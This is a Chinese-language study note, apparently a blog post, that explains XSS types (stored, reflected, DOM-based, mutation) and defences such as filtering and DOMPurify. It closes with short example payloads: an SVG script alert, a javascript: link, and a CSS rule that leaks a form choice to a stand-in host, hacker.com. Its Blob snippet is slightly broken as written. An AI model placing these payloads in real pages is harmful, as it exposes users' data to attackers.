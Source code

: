 ```yaml
---
layout: Post
title: "XSS"
subtitle: "web安全笔记（一）"
date: 2022-02-18
useHeaderImage: true
headerImage: /img/in-post/network-security/xss.jpg
headerMask: rgba(40, 57, 101, .4)
catalog: true
tags:
  - web安全
---
```


::: info
【第二届青训营-寒假前端场】课程 web 开发的安全之旅的扩展笔记
首发: [【第二届青训营-寒假前端场】- web 安全笔记（一）—— XSS](https://forum.juejin.cn/youthcamp/post/7065686880871776293?from=4)
:::

## XSS：Cross-Site Scripting

- _Meaning_\
   XSS 攻击，跨站脚本攻击(Cross-Site Scripting)，为了不和层叠样式表(Cascading Style Sheets, CSS)的缩写混淆，故将跨站脚本攻击缩写为 XSS。XSS 是一种常见的 web 安全漏洞，它允许攻击者将恶意代码植入到提供给其它用户使用的页面中。不同于大多数攻击(一般只涉及攻击者和受害者)，XSS 涉及到三方，即攻击者、客户端与 Web 应用。XSS 的攻击目标是为了盗取存储在客户端的 cookie 或者其他网站用于识别客户端身份的敏感信息。一旦获取到合法用户的信息后，攻击者甚至可以假冒合法用户与网站进行交互。
  > 本段引用于：[常见 web 攻击总结 - morethink - 博客园 (cnblogs.com)](https://www.cnblogs.com/morethink/p/8734103.html)
- XSS 主要利用了
  - web 网站盲目信任用户提交的内容
  - 没有将用户提交内容进行过滤/转义，直接转化成 DOM
- XSS 的一些特点
  - 难点：通常难以从 UI 上感知（暗地执行脚本）
  - 目的：窃取用户信息（cookie/token）
  - 形式：绘制 UI（e.g. 弹窗），诱骗用户进行点击或填写表单

## XSS 分类

### Stored XSS：存储型 XSS

- _Meaning_\
  主要出现在让用户输入数据，供其他浏览此页的用户进行查看的地方，包括留言、评论、博客日志和各类表单等。应用程序从数据库中查询数据，在页面中显示出来，攻击者在相关页面输入恶意的脚本数据后，用户浏览此类页面时就可能受到攻击。
- _Tips_
  - 恶意脚本存在数据库中
  - 访问页面 ——> 读数据 ——> 被攻击
  - 危害最大，对全部用户可见

### Reflect XSS：反射型 XSS

- _Meaning_\
  主要做法是将脚本代码加入 URL 地址的请求参数里，请求参数进入程序后在页面直接输出，用户点击类似的恶意链接就可能受到攻击。
- _Tips_
  - 不涉及数据库
  - 从 URL 上攻击

### DOM-based XSS：基于 DOM 的 XSS

- _Meaning_\
  是基于文档对象模型 Document Objeet Model，DOM)的一种漏洞。客户端的脚本程序可以通过 DOM 动态地检查和修改页面内容，它不依赖于提交数据到服务器端，而从客户端获得 DOM 中的数据在本地执行，如果 DOM 中的数据没有经过严格确认，就会产生 DOM—based XSS 漏洞。
- _Tips_
  - 不需要服务器的参与
  - 恶意攻击的发起+执行，全在浏览器完成

### Mutation-based XSS：突变 XSS

- _Meaning_\
  不论是服务器端或客户端的 XSS 过滤器，都认定过滤后的 HTM 源代码应该与浏览器所渲染后的 HTML 代码保持一致，至少不会出现很大的出入。然而，如果用户所提供的富文本内容通过 Javascript 代码进属性后，一些意外的变化会使得这个认定不再成立：一串看似没有任何危害的 HTML 代码，将逃过 XSS 过滤器的检测，最终进入某个 DOM 节点中，浏览器的渲染引擎会将本来没有任何危害的 HTML 代码渲染成具有潜在危险的 XSS 攻击代码。 随后，该段攻击代码，可能会被 JS 代码中的其它一些流程输出到 DOM 中或是其它方式被再次渲染，从而导致 XSS 的执行。这种由于 HTML 内容进后发生意外变化（mutation，突变，来自遗传学的一个单词，大家都知道的基因突变，gene mutation），而最终导致 XS 的攻击流程，被称为突变 XSS（mXSs, Mutation based Cross-Site-Scripting）
  > mXSS 的概念来源于：[xss 漏洞学习小结，详不详细你说了算](https://blog.csdn.net/MSB_WLAQ/article/details/120671017)
- _Tips_
  - 独特优化：利用了浏览器渲染 DOM 的特性
  - 按浏览器进行攻击：不同浏览器，会有区别

### Reflected XSS 和 DOM-based XSS 的区别

![image.png](https://p3-juejin.byteimg.com/tos-cn-i-k3u1fbpfcp/5e5ad102931844338074a571488820e6~tplv-k3u1fbpfcp-zoom-1.image)

- Reflected XSS 攻击中，服务器在返回 HTML 文档的时候，就已经包含了恶意的脚本。
- DOM-based XSS 攻击中，服务器在返回 HTML 文档的时候，是不包含恶意脚本的，恶意脚本是在其执行了非恶意脚本后，被注入到文档里的。

## 如何防御 XSS

### 防范 XSS 漏洞原则

1. 永远不信任用户所提交的内容
2. 不要将用户提交内容直接转换成 DOM
3. 实现 Session tokens（Session 标记）、CAPTCHA（验证码）系统或者 HTTP 引用头检查
4. Cookie 防盗
5. 确认接收的内容被妥善地规范化

### 常见防御 XSS 的方法

1. 基于特征的防御：过滤特殊字符\
   主要是将用户所提供的内容进行过滤，如过滤`<script>`标签。
2. 基于代码修改的防御
   1. 用户向服务器上提交的信息要对 URL 和附带的的 HTTP 头、POST 数据等进行查询，对不是规定格式、长度的内容进行过滤。
   2. 实现 Session 标记（session tokens）、CAPTCHA 系统或者 HTTP 引用头检查，以防功能被第三方网站所执行。
   3. 确认接收的的内容被妥善的规范化，仅包含最小的、安全的 Tag（没有 javascript），去掉任何对远程内容的引用（尤其是样式表和 javascript），使用 HTTP only 的 cookie。
3. 客户端分层防御策略
   > 来源：[XSS 攻击\_百度百科 (baidu.com)](https://baike.baidu.com/item/XSS%E6%94%BB%E5%87%BB/954065?fr=aladdin)

### 一些防御 XSS 的现成工具

- 前端
  - 主流框架默认防御 XSS
  - 安装插件 google-closure-library
- 服务端
  - DOMPurify (Node)

### 一些可能出现 XSS 的场景

1. string ——> DOM
   ```js
   new DOMParser();
   ```
2. 上传 svg
   ```html
   <svg>
     <script>
       alert('xss');
     </script>
   </svg>
   ```
3. Blob 动态生成 script
   ```js
   const blob = new Blob([script], { type: "text/javascript" });
   const url = new URL.createObjectURL(blob);
   const script = document.createElement("script");
   script.src = url;
   ```
4. 自定义跳转链接
   ```html
    <a href='javascript: alert('xss');'></a>
   ```
5. 自定义样式
   ```css
   input[type="radio"].income-gt10k:checked {
     background: url("https://hacker.com/?income=gt10k");
   }
   ```

## 小结

XSS 攻击，利用恶意脚本发起攻击。在 OWASP TOP10 中，威胁排行在 A3。

> [WEB 安全\_OWASP TOP10 威胁和策略 - 简书 (jianshu.com)](https://www.jianshu.com/p/a4d2ef5c8abc)
